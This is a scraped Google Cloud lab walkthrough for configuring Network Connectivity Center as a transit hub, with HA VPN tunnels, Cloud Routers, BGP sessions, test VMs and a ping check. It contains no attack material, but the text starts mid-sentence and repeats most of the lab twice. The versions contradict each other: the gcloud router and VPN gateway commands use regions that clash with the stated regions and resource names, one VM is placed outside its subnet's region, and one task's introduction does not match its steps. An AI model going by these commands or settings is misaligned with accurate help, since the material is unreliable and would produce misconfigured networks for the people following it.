Gateways**.4. Select the **Project Id** associated with the lab.5. Select the remote VPN gateway, **vpc-a-gw1-use4**.6. For high availability, select **Create a pair of VPN tunnels**.7. Select the Cloud Router **cr-vpc-transit-use4-1**.8. Click on the VPN tunnel to enter the tunnel details:- The Cloud VPN and the associated peer VPN gateway interface information should be pre-populated- Name: **transit-to-vpc-a-tu1**- IKE version: IKEv2- IKE pre-shared key: **gcprocks**9. Click **Done**.10. Repeat steps for the second tunnel:- Name: **transit-to-vpc-a-tu2**- IKE version: IKEv2- IKE pre-shared key: **gcprocks**11. Click **Done**.12. Click **Create & Continue**.###### Add BGP sessions for each VPN tunnel configured from vpc-transit to vpc-aThe next step is to configure BGP session for the VPN tunnel *transit-to-vpc-a-tu1*1. ClickConfigure BGP Session for transit-to-vpc-a-tu1:- BGP session name: **transit-to-vpc-a-bgp1**- Peer ASN: **65001**- Allocate BGP IPv4 address: *Manually*- Cloud Router BGP IPv4 address: **169.254.1.1**- BGP peer IPv4 address: **169.254.1.2**2. Click **Save and continue**.- Repeat steps to configure BGP session for the VPN tunnel *transit-to-vpc-a-tu2*.1. Click **Configure BGP Session for transit-to-vpc-a-tu2**:- BGP session name: **transit-to-vpc-a-bgp2**- Peer ASN: **65001**- Allocate BGP IPv4 address: *Manually*- Cloud Router BGP IPv4 address: **169.254.1.5**- BGP peer IPv4 address: **169.254.1.6**1. Click **Save and continue**.2. Click on **Save BGP configuration**.3. Click **OK**.###### Add VPN tunnels from vpc-a to vpc-transitNow create a pair of VPN tunnels from the *vpc-a* to *vpc-transit* to complete the bidirectional tunnel configuration using the following steps:1. From the VPN page, select **Cloud VPN Gateways** *vpc-a-gw1-use4*:2. Click to **Add VPN tunnel**.3. For the Peer VPN Gateway, select **Google Cloud VPN Gateways**.4. Select the **Project Id** associated with the lab.5. Select the remote VPN gateway, **vpc-transit-gw1-use4**6. For high availability, select **Create a pair of VPN tunnels**.7. Select the Cloud Router, **cr-vpc-a-use4-1**8. Click on the VPN tunnel to enter the tunnel details:- The Cloud VPN and peer VPN gateway interface information should be pre-populated.- Name: **vpc-a-to-transit-tu1**- IKE version: IKEv2- IKE pre-shared key: **gcprocks**9. Click **Done**.10. Repeat steps for the second tunnel:- Name: **vpc-a-to-transit-tu2**- IKE version: IKEv2- IKE pre-shared key: **gcprocks**11. Click **Done**.12. Click **Create & Continue**.###### Add BGP sessions for each VPN tunnel configured from vpc-a to vpc-transitThe next step is to configure BGP session for the VPN tunnel: *transit-to-vpc-a-tu1*1. ClickConfigure BGP Session for vpc-a-to-transit-tu1- BGP session name: **vpc-a-to-transit-bgp1**- Peer ASN: **65000**- Allocate BGP IPv4 address: *Manually*- Cloud Router BGP IPv4 address: **169.254.1.2**- BGP peer IPv4 address: **169.254.1.1**2. Click **Save and continue**.Repeat steps to configure BGP session for the VPN tunnel: *transit-to-vpc-a-tu2*1. ClickConfigure BGP Session for vpc-a-to-transit-tu2- BGP session name: **vpc-a-to-transit-bgp2**- Peer ASN: **65000**- Allocate BGP IPv4 address: *Manually*- Cloud Router BGP IPv4 address: **169.254.1.6**- BGP peer IPv4 address: **169.254.1.5**2. Click **Save and continue**.3. Click on **Save BGP configuration**.4. Click **OK**.Once this step is complete the VPN tunnel status should reflect *Established* and BGP status should reflect *BGP established*.##### **Step 4: Create a pair of VPN tunnels between vpc-transit to vpc-b**- Repeat steps listed above (step 3) to create the bidirectional HA VPN tunnels between the vpc-transit and vpc-b networks using the details below.###### Add VPN tunnels from vpc-transit to vpc-b| Peer VPN gateway name | *vpc-b-gw1-usw2* || --------------------- | ----------------------- || Cloud Router | *cr-vpc-transit-usw2-1* || VPN tunnel one | *transit-to-vpc-b-tu1* || Pre-shared key | *gcprocks* || VPN tunnel two | *transit-to-vpc-b-tu2* || Pre-shared key | *gcprocks* |###### Add BGP sessions for each VPN tunnel configured from vpc-transit to vpc-bBGP session for tunnel *transit-to-vpc-b-tu1* :| BGP session | *transit-to-vpc-b-bgp1* || ----------------------------- | ----------------------- || Peer ASN | *65002* || Cloud Router BGP IPv4 address | 169.254.1.9 || BGP peer IPv4 address | 169.254.1.10 |BGP session for tunnel *transit-to-vpc-b-tu2* :| BGP session | *transit-to-vpc-b-bgp2* || ----------------------------- | ----------------------- || Peer ASN | *65002* || Cloud Router BGP IPv4 address | 169.254.1.13 || BGP peer IPv4 address | 169.254.1.14 |###### Add VPN tunnels from vpc-b to vpc-transit| Peer VPN gateway name | *vpc-transit-gw1-usw2* || --------------------- | ---------------------- || Cloud Router | *cr-vpc-b-usw2-1* || VPN tunnel one | *vpc-b-to-transit-tu1* || Pre-shared key | *gcprocks* || VPN tunnel second | *vpc-b-to-transit-tu2* || Pre-shared key | *gcprocks* |###### Add BGP sessions for each VPN tunnel configured from vpc-b to vpc-transitBGP session for tunnel *vpc-b-to-transit-tu1* :| BGP session | *vpc-b-to-transit-bgp1* || ----------------------------- | ----------------------- || Peer ASN | *65000* || Cloud Router BGP IPv4 address | 169.254.1.10 || BGP peer IPv4 address | 169.254.1.9 |BGP session for tunnel *vpc-b-to-transit-tu2* :| BGP session | *vpc-b-to-transit-bgp2* || ----------------------------- | ----------------------- || Peer ASN | *65000* || Cloud Router BGP IPv4 address | 169.254.1.14 || BGP peer IPv4 address | 169.254.1.13 |##### **Step 5: Verify the all the VPN connections status from the VPN page**- Scroll down the page to confirm that all connections are good.Click *Check my progress* to verify the objective.Create a pair of VPN tunnels between vpc-transit to vpc-a and vpc-bCheck my progress### Task 4. Create NCC hub resources and attach the HA VPNs as spokesIn this section you will create a VPC and create 2 subnets inside that VPC. This will all be done using gcloud CLI commands inside Google Cloud Shell.Before you can perform any tasks for Network Connectivity Center, you must enable the Network Connectivity API.1. From the **Navigation Menu**, search for **API & Services**.2. Click on **Library**, and search for **Network Connectivity API**.3. Select the **Network Connectivity API**.1. Click **Enable**.2. In this lab `gcloud` commands are used to configure the Network Connectivity Center. In order to authorize Cloud Shell to run the gcloud commands, open the Google Cloud Shell by clicking **Activate Cloud Shell**().3. Run the following command to list the active account name:
gcloud auth list
xxxxxxxxxx1. Click **Authorize**.#### Step 1: Create NCC hub- You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents:
gcloud alpha network-connectivity hubs create transit-hub \ --description=Transit_hub
xxxxxxxxxx#### Step 2: Create the spoke for branch office 1- You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents:
gcloud alpha network-connectivity spokes create bo1 \ --hub=transit-hub \ --description=branch_office1 \ --vpn-tunnel=transit-to-vpc-a-tu1,transit-to-vpc-a-tu2 \ --region=Region 1
xxxxxxxxxx#### Step 3: Create the spoke for branch office 2- You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents.
gcloud alpha network-connectivity spokes create bo2 \ --hub=transit-hub \ --description=branch_office2 \ --vpn-tunnel=transit-to-vpc-b-tu1,transit-to-vpc-b-tu2 \ --region=Region 2
xxxxxxxxxxClick *Check my progress* to verify the objective.Create NCC hub resources and attach the HA VPNs as spokesCheck my progress### Task 5. Test the setup end to end deploying VMs in the remote branch office VPCsAfter configuring the hub and its spokes, you should be able to pass traffic from the virtual machine (VM) instance in *branch office1* to the VM instance in *branch office2*. To do this, create a *vpc-a-vm-1* in *vpc-a* and vpc-b-vm-1 in *vpc-b* respectively.First, create firewall rules: *fw-a* for *vpc-a-vm-1* in *vpc-a-sub1-use4* subnet and *fw-b* for *vpc-b-vm-1* in *vpc-b-sub1-usw2* subnet respectively to allow ingress SSH and ICMP traffic.#### Step 1: Create Firewall rule for vpc-a1. In the Cloud Platform Console, click **Navigation menu** () at the top left of the screen.2. Then navigate to **VPC network** > **Firewall**.3. Click on **CREATE FIREWALL RULE** and specify the details as shown. 1. Similarly, create firewall rule **fw-b** for **vpc-b**.#### Step 2: Create VM in vpc-a1. In the **Cloud console**, on the **Navigation menu** (☰), click **Compute Engine** > **VM Instances**, then click **Create instance**.**Note:** This may take a minute to initialize for the first time.There are many parameters you can configure when creating a new instance. Use the following for this lab:1. In the **Machine configuration**Enter the values for the following fields:| Field | Value || :---------- | :----------- || **Name** | `vpc-a-vm-1` || **Region** | `<Region 1>` || **Zone** | `<Zone 1>` || **Series** | `E2` || **Machine** | `e2-medium` |2. Click **OS and storage**Click **Change** to begin configuring your boot disk and select the values for:| Field | Value || :------------------- | :-------------------------------------- || **Operating system** | `Debian` || **Version** | `Debian GNU/Linux 11 (bullseye) x86/64` || **Boot disk type** | `balanced persistent disk` || **Size (GB)** | `10 GB` |3. Click **Networking**- Network interfaces: click on
xxxxxxxxxxdefault```
xxxxxxxxxxto edit.- **Network**: `vpc-a`- **Subnetwork**: `vpc-a-sub1-use4`
Once all sections are configured, scroll down and click Create to launch your virtual machine instance.
Note: The instance creation process is asynchronous. You can check on the status of the task using the top right-hand side Activities icon. Wait for it to finish - it shouldn't take more than a minute.
Note: If you receive an error when creating a VM, click into Details. Most likely you need to try again with a different zone.
Once finished, you should see the new virtual machine in the VM Instances page.
Similarly, create another VM in vpc-b using the following parameters:
In the Machine configuration
Enter the values for the following fields:
Field Value Name vpc-b-vm-1Region <Region 2>Zone <Zone 2>Series E2Machine e2-mediumClick OS and storage
Click Change to begin configuring your boot disk and select the values for:
Field Value Operating system DebianVersion Debian GNU/Linux 11 (bullseye) x86/64Boot disk type balanced persistent diskSize (GB) 10 GBClick Networking
Network interfaces
: click on
xxxxxxxxxxdefaultto edit.
Network:
vpc-bSubnetwork:
vpc-b-sub1-usw2
Once all sections are configured, scroll down and click Create to launch your virtual machine instance.
Once finished, you should see the two virtual machines in the VM Instances page.
Copy the internal IP of vpc-b-vm-1.

Click Check my progress to verify the objective.
Create VMs in the remote branch office VPCs
Check my progress
Step 3: Run the ping command and verify connectivity to bo2 via NCC transit
To verify the end to end connectivity, run a ping test between vpc-a-vm-1 and vpc-b-vm-1 using the following steps:
SSH into vpc-a-vm-1 by clicking on SSH on the right hand side of vpc-a-vm-1. This launches a SSH client directly from your browser.
Note: You can also SSH into the virtual machine. Learn more about SSH from the Connect to an instance using ssh documentation.

Run a ping test from vpc-a-vm-1 to the internal IP of vpc-b-vm-1.
You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents.
xxxxxxxxxxping -c 5 <INTERNAL_IP_OF_VPC-B-VM-1>

Congratulations!
This completes our lab for the Network Connectivity Center as a Transit hub with HA VPNs as spokes.
LAB - Configuring Network Connectivity Center as a Transit Hub
Overview
Network Connectivity Center (NCC) enables connecting different enterprise networks together that are outside of Google Cloud by leveraging Google's network—providing enterprises instant access to planet-scale reach and high reliability. Traffic between non-Google networks is referred to as data transfer traffic, which can occur using existing standard cloud network connectivity resources such as Cloud VPN, Dedicated or Partner Interconnect.
In this lab, you will go through the process of setting up NCC as a transit hub to route traffic between two non-Google networks using Google's backbone network.
Architecture
NCC consists of hub and spoke resources.
Hub
A hub is a global Google Cloud resource that supports multiple attached spokes. It provides a simple way to connect spokes together to enable data transfer across them. A hub can provide data transfer between different on-premises locations and a Virtual Private Cloud (VPC) network through its attached spokes.
Spoke
A spoke is a Google Cloud network resource connected to a hub. It is part of the hub, and can't be created without creating the hub first. A spoke routes traffic to remote network address blocks and enables the connection of multiple remote networks.
Spokes can be of one of the following types:
HA VPN tunnels
VLAN attachments
Router appliance instances that you or select partners deploy within Google Cloud
The following network topology is similar to a typical customer deployment having branch offices located in two geographically separate locations. For this lab, you are simulating two VPCs vpc-a, and vpc-b in us-central1, and us-west2 as the branch offices respectively.
The branch offices are connected to a VPC, vpc-transit, which is a central hub terminating a pair of HA VPNs. These VPNs are configured in a region closest to the branch offices. In the real world, these VPNs could be replaced using Interconnects.
You will configure the NCC hub in the vpc-transit network, and the two remote branch offices will be connected using the HA VPN tunnels as spokes.

In this lab, you will achieve the following objectives:
Create a hub VPC called vpc-transit.
Create two remote branch office VPCs namely vpc-a and vpc-b.
Create HA VPN from vpa-a to vpc-transit, and vpc-b to vpc-transit.
Create a NCC hub resource and attach the HA VPNs as spokes.
Test the setup end to end deploying VMs in the remote branch office VPCs.
Prerequisites
Basic knowledge of Google VPC Networking, and Compute Engine.
It is helpful to have completed the Networking 101 and VPC Networking: Cloud HA-VPN labs.
Task 1. Create vpc-transit
In the Google Cloud Console, in the top-right toolbar, click the Activate Cloud Shell button and run the following command to delete the default network.

xxxxxxxxxxgcloud compute networks delete default
In the Google Cloud Console, from the Navigation Menu (
Click CREATE VPC NETWORK.
Enter a Name for the network: vpc-transit.
You do not need to create a subnet for the vpc-transit so click Delete next to New Subnet.
Choose the Dynamic routing mode for the VPC network as Global.
Note: Learn more about dynamic routing from the dynamic routing mode documentation.
Click Create.
Click Check my progress to verify the objective.
Create vpc-transit network
Check my progress
Task 2. Create remote branch office VPCs
In the Google Cloud Console, from the Navigation menu, go to the VPC network.
Click CREATE VPC NETWORK.
Enter a Name for the network as vpc-a.
Choose Custom for the Subnet creation mode.
In the New subnet section, specify the following configuration parameters for a subnet:
Name for the subnet: vpc-a-sub1-use4.
Region:
us-central1.IP address range 10.20.10.0/24. This is the primary IP range for the subnet.
Click Done.
Choose the Dynamic routing mode for the VPC network as Regional.
Click Create.
To add the second remote branch office VPC, click CREATE VPC NETWORK.
Enter a Name for the network as vpc-b.
Choose Custom for the Subnet creation mode.
In the New subnet section, specify the following configuration parameters for a subnet:
Provide a Name for the subnet as vpc-b-sub1-usw2.
Select Region as
us-west2.Enter an IP address range 10.20.20.0/24.
Click Done.
Choose the Dynamic routing mode for the VPC network as Regional.
Click Create.
Now you should be able to view all 3 VPCs in the VPC networks console like this:

Click Check my progress to verify the objective.
Create remote branch office VPCs namely vpc-a and vpc-b
Check my progress
Task 3. Configure HA VPN between the remote branch office VPCs and the transit hub VPC
Note: In this lab you are simulating the remote branch offices as Google Cloud VPCs, therefore using the steps listed to Create HA VPN between Google Cloud Networks.
For any practical implementation, you may replace the steps listed below with the steps for Creating an HA VPN gateway to a peer VPN gateway if you are using HA VPNs to connect to your branch offices.
In this section you will configure an HA VPN between the remote branch office VPCs (vpc-a and vpc-b) and the transit hub VPC (vpc-transit). HA VPN uses BGP for dynamically exchanging routes between Google Cloud and the peer network. Before configuring the HA VPNs, you need to create Cloud Routers associated with each VPC network.
Note: Learn more about Cloud Routers in the Cloud Router overview documentation.
Step 1: Create cloud routers
To create a new Cloud Router for each VPC, specify the following:
In the Cloud Console, from the Navigation menu, go to Network Connectivity and select Cloud Routers.
Click Create router.
Enter name as cr-vpc-transit-use4-1.
Select the network as vpc-transit.
Select the region as
us-central1.Enter the ASN as 65000.
Select Advertise all subnets visible to the Cloud Router (Default).
Click Create.
Use the steps mentioned above to create additional cloud routers using the following details:
| Cloud Router name | VPC Network | Region | Google ASN |
|---|---|---|---|
| cr-vpc-transit-usw2-1 | vpc-transit | us-west2 | 65000 |
| cr-vpc-a-use4-1 | vpc-a | us-central1 | 65001 |
| cr-vpc-b-usw2-1 | vpc-b | us-west2 | 65002 |
xxxxxxxxxxgcloud compute routers create cr-vpc-transit-use4-1 \--region us-east4 \--network vpc-transit \--asn 65000gcloud compute routers create cr-vpc-transit-usw2-1 \--region us-west2 \--network vpc-transit \--asn 65000gcloud compute routers create cr-vpc-a-use4-1 \--region us-east4 \--network vpc-a \--asn 65001gcloud compute routers create cr-vpc-b-usw2-1 \--region us-west2 \--network vpc-b \--asn 65002
Step 2: Create HA VPN gateways
Create an HA VPN gateway in the vpc-transit network for us-central1 region, using the following steps:
From the Navigation menu, go to Network Connectivity and select VPN.
Click Create VPN connection.
Select High-availability (HA) VPN.
Click Continue.
Specify a VPN gateway name as vpc-transit-gw1-use4.
Under the VPC network, select vpc-transit.
Select a Region as
us-central1.Click Create and continue.
Note: Before adding VPN tunnels, you need to create additional VPN gateways.
From the VPN page, select Cloud VPN Gateways.
Click Create VPN gateway and enter the following details to create the additional VPN gateways:
| VPN gateway name | VPC Network | Region |
|---|---|---|
| vpc-transit-gw1-usw2 | vpc-transit | us-west2 |
| vpc-a-gw1-use4 | vpc-a | us-central1 |
| vpc-b-gw1-usw2 | vpc-b | us-west2 |
xxxxxxxxxxgcloud compute vpn-gateways create vpc-transit-gw1-use4 \--network=vpc-transit \--region=us-west1gcloud compute vpn-gateways create vpc-transit-gw1-usw2 \--network=vpc-transit \--region=us-central1gcloud compute vpn-gateways create vpc-a-gw1-use4 \--network=vpc-a \--region=us-west1gcloud compute vpn-gateways create vpc-b-gw1-usw2 \--network=vpc-b \--region=us-central1
Click Check my progress to verify the objective.
Create cloud routers and HA VPN gateways
Check my progress
Step 3: Create a pair of VPN tunnels between vpc-transit to vpc-a
Add VPN tunnels from vpc-transit to vpc-a
Create a pair of VPN tunnels using the following steps:
From the VPN page, click on Cloud VPN Gateways and select vpc-transit-gw1-use4.
Click to Add VPN tunnel.
For the Peer VPN Gateway, select Google Cloud VPN Gateways.
Select the Project Id associated with the lab.
Select the remote VPN gateway, vpc-a-gw1-use4.
For high availability, select Create a pair of VPN tunnels.
Select the Cloud Router cr-vpc-transit-use4-1.
Click on the VPN tunnel to enter the tunnel details:
The Cloud VPN and the associated peer VPN gateway interface information should be pre-populated
Name: transit-to-vpc-a-tu1
IKE version: IKEv2
IKE pre-shared key: gcprocks
Click Done.
Repeat steps for the second tunnel:
Name: transit-to-vpc-a-tu2
IKE version: IKEv2
IKE pre-shared key: gcprocks
Click Done.
Click Create & Continue.
Add BGP sessions for each VPN tunnel configured from vpc-transit to vpc-a
The next step is to configure BGP session for the VPN tunnel transit-to-vpc-a-tu1
Click
Configure BGP Session for transit-to-vpc-a-tu1
:
BGP session name: transit-to-vpc-a-bgp1
Peer ASN: 65001
Allocate BGP IPv4 address: Manually
Cloud Router BGP IPv4 address: 169.254.1.1
BGP peer IPv4 address: 169.254.1.2
Click Save and continue.
Repeat steps to configure BGP session for the VPN tunnel transit-to-vpc-a-tu2.
Click Configure BGP Session for transit-to-vpc-a-tu2:
BGP session name: transit-to-vpc-a-bgp2
Peer ASN: 65001
Allocate BGP IPv4 address: Manually
Cloud Router BGP IPv4 address: 169.254.1.5
BGP peer IPv4 address: 169.254.1.6
Click Save and continue.
Click on Save BGP configuration.
Click OK.
Add VPN tunnels from vpc-a to vpc-transit
Now create a pair of VPN tunnels from the vpc-a to vpc-transit to complete the bidirectional tunnel configuration using the following steps:
From the VPN page, select Cloud VPN Gateways vpc-a-gw1-use4:
Click to Add VPN tunnel.
For the Peer VPN Gateway, select Google Cloud VPN Gateways.
Select the Project Id associated with the lab.
Select the remote VPN gateway, vpc-transit-gw1-use4
For high availability, select Create a pair of VPN tunnels.
Select the Cloud Router, cr-vpc-a-use4-1
Click on the VPN tunnel to enter the tunnel details:
The Cloud VPN and peer VPN gateway interface information should be pre-populated.
Name: vpc-a-to-transit-tu1
IKE version: IKEv2
IKE pre-shared key: gcprocks
Click Done.
Repeat steps for the second tunnel:
Name: vpc-a-to-transit-tu2
IKE version: IKEv2
IKE pre-shared key: gcprocks
Click Done.
Click Create & Continue.
Add BGP sessions for each VPN tunnel configured from vpc-a to vpc-transit
The next step is to configure BGP session for the VPN tunnel: transit-to-vpc-a-tu1
Click
Configure BGP Session for vpc-a-to-transit-tu1
BGP session name: vpc-a-to-transit-bgp1
Peer ASN: 65000
Allocate BGP IPv4 address: Manually
Cloud Router BGP IPv4 address: 169.254.1.2
BGP peer IPv4 address: 169.254.1.1
Click Save and continue.
Repeat steps to configure BGP session for the VPN tunnel: transit-to-vpc-a-tu2
Click
Configure BGP Session for vpc-a-to-transit-tu2
BGP session name: vpc-a-to-transit-bgp2
Peer ASN: 65000
Allocate BGP IPv4 address: Manually
Cloud Router BGP IPv4 address: 169.254.1.6
BGP peer IPv4 address: 169.254.1.5
Click Save and continue.
Click on Save BGP configuration.
Click OK.
Once this step is complete the VPN tunnel status should reflect Established and BGP status should reflect BGP established.
Step 4: Create a pair of VPN tunnels between vpc-transit to vpc-b
Repeat steps listed above (step 3) to create the bidirectional HA VPN tunnels between the vpc-transit and vpc-b networks using the details below.
Add VPN tunnels from vpc-transit to vpc-b
| Peer VPN gateway name | vpc-b-gw1-usw2 |
|---|---|
| Cloud Router | cr-vpc-transit-usw2-1 |
| VPN tunnel one | transit-to-vpc-b-tu1 |
| Pre-shared key | gcprocks |
| VPN tunnel two | transit-to-vpc-b-tu2 |
| Pre-shared key | gcprocks |
Add BGP sessions for each VPN tunnel configured from vpc-transit to vpc-b
BGP session for tunnel transit-to-vpc-b-tu1 :
| BGP session | transit-to-vpc-b-bgp1 |
|---|---|
| Peer ASN | 65002 |
| Cloud Router BGP IPv4 address | 169.254.1.9 |
| BGP peer IPv4 address | 169.254.1.10 |
BGP session for tunnel transit-to-vpc-b-tu2 :
| BGP session | transit-to-vpc-b-bgp2 |
|---|---|
| Peer ASN | 65002 |
| Cloud Router BGP IPv4 address | 169.254.1.13 |
| BGP peer IPv4 address | 169.254.1.14 |
Add VPN tunnels from vpc-b to vpc-transit
| Peer VPN gateway name | vpc-transit-gw1-usw2 |
|---|---|
| Cloud Router | cr-vpc-b-usw2-1 |
| VPN tunnel one | vpc-b-to-transit-tu1 |
| Pre-shared key | gcprocks |
| VPN tunnel second | vpc-b-to-transit-tu2 |
| Pre-shared key | gcprocks |
Add BGP sessions for each VPN tunnel configured from vpc-b to vpc-transit
BGP session for tunnel vpc-b-to-transit-tu1 :
| BGP session | vpc-b-to-transit-bgp1 |
|---|---|
| Peer ASN | 65000 |
| Cloud Router BGP IPv4 address | 169.254.1.10 |
| BGP peer IPv4 address | 169.254.1.9 |
BGP session for tunnel vpc-b-to-transit-tu2 :
| BGP session | vpc-b-to-transit-bgp2 |
|---|---|
| Peer ASN | 65000 |
| Cloud Router BGP IPv4 address | 169.254.1.14 |
| BGP peer IPv4 address | 169.254.1.13 |
Step 5: Verify the all the VPN connections status from the VPN page
Scroll down the page to confirm that all connections are good.

Click Check my progress to verify the objective.
Create a pair of VPN tunnels between vpc-transit to vpc-a and vpc-b
Check my progress
Task 4. Create NCC hub resources and attach the HA VPNs as spokes
In this section you will create a VPC and create 2 subnets inside that VPC. This will all be done using gcloud CLI commands inside Google Cloud Shell.
Before you can perform any tasks for Network Connectivity Center, you must enable the Network Connectivity API.
From the Navigation Menu, search for API & Services.
Click on Library, and search for Network Connectivity API.
Select the Network Connectivity API.

Click Enable.
In this lab
gcloudcommands are used to configure the Network Connectivity Center. In order to authorize Cloud Shell to run the gcloud commands, open the Google Cloud Shell by clicking Activate Cloud Shell(Run the following command to list the active account name:
xxxxxxxxxxgcloud auth list
Click Authorize.
Step 1: Create NCC hub
You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents:
xxxxxxxxxxgcloud alpha network-connectivity hubs create transit-hub \--description=Transit_hub
Step 2: Create the spoke for branch office 1
You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents:
xxxxxxxxxxgcloud alpha network-connectivity spokes create bo1 \--hub=transit-hub \--description=branch_office1 \--vpn-tunnel=transit-to-vpc-a-tu1,transit-to-vpc-a-tu2 \--region=us-central1
Step 3: Create the spoke for branch office 2
You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents.
xxxxxxxxxxgcloud alpha network-connectivity spokes create bo2 \--hub=transit-hub \--description=branch_office2 \--vpn-tunnel=transit-to-vpc-b-tu1,transit-to-vpc-b-tu2 \--region=us-west2
Click Check my progress to verify the objective.
Create NCC hub resources and attach the HA VPNs as spokes
Check my progress
Task 5. Test the setup end to end deploying VMs in the remote branch office VPCs
After configuring the hub and its spokes, you should be able to pass traffic from the virtual machine (VM) instance in branch office1 to the VM instance in branch office2. To do this, create a vpc-a-vm-1 in vpc-a and vpc-b-vm-1 in vpc-b respectively.
First, create firewall rules: fw-a for vpc-a-vm-1 in vpc-a-sub1-use4 subnet and fw-b for vpc-b-vm-1 in vpc-b-sub1-usw2 subnet respectively to allow ingress SSH and ICMP traffic.

Step 1: Create Firewall rule for vpc-a
In the Cloud Platform Console, click Navigation menu (
Then navigate to VPC network > Firewall.
Click on CREATE FIREWALL RULE and specify the details as shown.
 
Similarly, create firewall rule fw-b for vpc-b.
Step 2: Create VM in vpc-a
In the Cloud console, on the Navigation menu (☰), click Compute Engine > VM Instances, then click Create instance.
Note: This may take a minute to initialize for the first time.
There are many parameters you can configure when creating a new instance. Use the following for this lab:
In the Machine configuration
Enter the values for the following fields:
Field Value Name vpc-a-vm-1Region us-central1Zone us-central1-cSeries E2Machine e2-mediumClick OS and storage
Click Change to begin configuring your boot disk and select the values for:
Field Value Operating system DebianVersion Debian GNU/Linux 11 (bullseye) x86/64Boot disk type balanced persistent diskSize (GB) 10 GBClick Networking
Network interfaces
: click on
xxxxxxxxxxdefaultto edit.
Network:
vpc-aSubnetwork:
vpc-a-sub1-use4
Once all sections are configured, scroll down and click Create to launch your virtual machine instance.
Note: The instance creation process is asynchronous. You can check on the status of the task using the top right-hand side Activities icon. Wait for it to finish - it shouldn't take more than a minute.
Note: If you receive an error when creating a VM, click into Details. Most likely you need to try again with a different zone.
Once finished, you should see the new virtual machine in the VM Instances page.
Similarly, create another VM in vpc-b using the following parameters:
In the Machine configuration
Enter the values for the following fields:
Field Value Name vpc-b-vm-1Region us-central1Zone us-central1-cSeries E2Machine e2-mediumClick OS and storage
Click Change to begin configuring your boot disk and select the values for:
Field Value Operating system DebianVersion Debian GNU/Linux 11 (bullseye) x86/64Boot disk type balanced persistent diskSize (GB) 10 GBClick Networking
Network interfaces
: click on
xxxxxxxxxxdefaultto edit.
